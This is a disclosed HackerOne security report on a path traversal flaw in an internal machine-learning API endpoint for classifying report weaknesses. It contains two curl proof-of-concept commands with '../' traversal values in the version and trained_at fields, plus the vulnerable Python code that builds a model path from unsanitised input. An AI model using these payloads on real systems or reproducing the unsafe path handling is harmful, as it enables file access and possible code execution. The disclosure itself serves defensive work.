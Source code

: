 # Internal machine learning API endpoint for CWE classification is vulnerable to path traversal

## Report Details
- **Report ID**: 2032778
- **URL**: https://hackerone.com/reports/2032778
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-20T22:02:06.309Z
- **Disclosed**: 2023-07-05T15:05:25.578Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
HackerOne has an internal machine learning API that exposes inference endpoints for numerous machine learning / artificial intelligence solutions. In one of the endpoints, `/predict/report_weakness_id`, which is used to classify report input, a path traversal vulnerability exists that could lead to remote code execution.

# Proof of concept
The `request.version` and `request.trained_at` parameters are both vulnerable to path traversal. To reproduce, run any of the following curl commands inside the local Docker container:

**trained_at**
```
curl -X POST http://localhost:8082/predict/report_weakness_id -H 'content-type: application/json' -d'{"version":"v1", "trained_at": "2023-01-01T00:00:00Z/../../..", "input": [{"title": "test xss", "num_of_top_predictions": 3}]}'
```

**version**
```
curl -X POST http://localhost:8082/predict/report_weakness_id -H 'content-type: application/json' -d'{"version":"v1/../../../..", "trained_at": "2023-01-01T00:00:00Z", "input": [{"title": "test xss", "num_of_top_predictions": 3}]}'
```

The vulnerable code is shown below. The `version` and `trained_at` inputs are interpolated directly into the path, as can be seen on line 29. The `AutoTokenizer.from_pretrained` function is then called to load the tokenizer into memory.

```python
@app.post(
    "/predict/report_weakness_id",
    summary="An endpoint to suggest report's weakness id.",
)
async def report_weakness_id(request: ReportWeaknessIdModelRequest):
    """
    To try the endpoint in the Swagger UI, click on **Try it out** and copy-paste the below example in the request body box
    ```
    {
        "version":"v1",
        "trained_at": "2023-01-01T00_00_00Z",
        "input": [
            {
                "title": "test xss",
                "num_of_top_predictions": 3
            }
        ]
    }
    ```
    """
    input = request.input[0]
    title = preprocess_text(input.title)

    top_n = int(
        input.num_of_top_predictions or 3
    )  # as a start, it's by default set as 3

    model_dirpath = pathlib.Path(
        f"{os.path.dirname(__file__)}/../models/report_weakness_id/{request.version}/{request.trained_at}/"
    )

    tokenizer = AutoTokenizer.from_pretrained(model_dirpath, use_fast=True)
```

## Impact

An attacker would be able to execute arbitrary python code if they were able to get a joblib file onto the ML API (i.e. as a temporary file).

## Attachments
No attachments
